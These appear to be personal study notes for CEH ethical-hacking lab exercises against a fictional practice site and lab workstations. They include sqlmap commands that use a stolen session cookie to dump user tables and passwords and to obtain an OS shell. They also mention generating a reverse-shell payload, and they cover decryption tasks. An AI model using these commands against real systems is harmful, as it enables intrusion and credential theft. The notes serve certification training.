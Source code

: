 
1.13 Perform an sql injection attack on movies.cehorg.com and find out the number of users availabe in the database. Cred: jason/welcome
- login->go to view profile/any end to get id=1? Type url entry point
-sqlmap-> use cookie ( document.cookie)
-sqlmap –u “link” --cookie –dbs etc
- sqlmap –u “link” --cookie=”hdfh=;” -D moviescope –T Login.User,User_Login –C isadmin,password,Uid,Uname --dump
--
1.14 Perform web crawling on the webpage movies.cehorg.com and identfy the number of live pngs in Image folder====> use zap=> check github
(1.13 + 
- sqlmap –u “link” --cookie=”hdfh=;” -D moviescope –T Login.User,User_Login –C isadmin,password,Uid,Uname –os-shell
- after getting os shell: 
- pwd
-whoami
-ipconfig
- ls kore kore check dite hobe live png jekono directory te thakte pare
****Need to make payload. Use Online - Reverse Shell Generator to make payload (video 2:11:17)
1.15 CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at
 C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap.
 You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network. AAA
-Sniffing is done through ARP protocol*****keep in mind


Lab Skill Checks Part 4
1.1 An attacker has intruded into the CEHORG network with malicious intent. He has identified a vulnerability in a machine. He has encoded the machine’s IP address and left it in the database. While auditing the database, the encoded file was identified by the database admin. Decode the EncodedFile.txt file in the Document folder in the ‘EH Workstation – 2’ machine and enter the IP address as the answer. (Hint: Password to decode the file is Pa$$w0rd  - this is the pass)
Crypto ques
-	Documents folder-> encoded.txt 
-	Will need BCTextEncoder
-	In E drive->ceh tools->module 20 cry->Cryptography Tools-BCTextencoder
-	
	 

** to check cypher/hash use CEH v13 Lab\CEHv13 Module 13 Hacking Web Servers\Wordlists CyberChef

1.2 The Access code of an employee was stolen from the CEHORG database. The attacker has encrypted the file using the Advance Encryption Package.
 You have been assigned a task to decrypt the file; the organization has retained the cipher file
 "AccessCode.docx.aes" in the Document folder in the "EH Workstation – 2" machine.
 Determine the access code by decrypting the file.
 Hint: Use "qwerty" as the decryption password.
 Note: Advanced Encryption Package is available at:
 E:\CEH-Tools\CEHv12 Module 20 Cryptography\Cryptography Tools
 

1.3 A VeraCrypt volume file "secret" is stored on the Document folder in the "EH Workstation – 2" machine. You are an ethical hacker working with CEHORG; you have been tasked to decrypt the encrypted volume and determine the number of files stored in the volume. (Hint: Password: test) (video : https://www.youtube.com/watch?v=eROZzRy-Hso&t=360s&ab_channel=FireShark time: 19:50)
